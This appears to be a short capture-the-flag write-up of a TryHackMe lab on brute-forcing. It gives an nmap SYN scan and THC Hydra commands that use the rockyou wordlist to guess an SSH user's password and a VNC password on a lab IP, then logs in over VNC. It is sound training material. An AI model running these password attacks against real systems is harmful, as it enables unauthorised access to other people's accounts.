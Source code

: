 ```yaml
---
layout: single
title: "[Day 5] Brute-Forcing He knows when you're awake"
header:
  teaser: "/assets/images/hacking-teaser.JPG"
---
```


We are going to dictionary attack an account. 

First scan the target via ```nmap -sS 10.10.93.183``` -sS = TCP SYN Scan technique
![hydra -f](/assets/images/tryhackme/day5/nmap.PNG)

THC Hydra is am commandline tool which understands SSH, VNC, FTP, POP*, IMAP, SMTP and others. 

We run the command: ```hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.93.183 -V```
This will find us the password for ssh user alexander. 

Next task is to find a VNC password on the target. As VNC doesn't use username we omit it: 
```hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.93.183 -V```
This took quite long. 
Somehow it didn't stop after it found a password. 
I run again with ```hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.93.183 -f``` which should explicit stop after the first match.

![hydra -f](/assets/images/tryhackme/day5/hydra-f.PNG)

Eventually I could vnc login with Remmina into the target. 
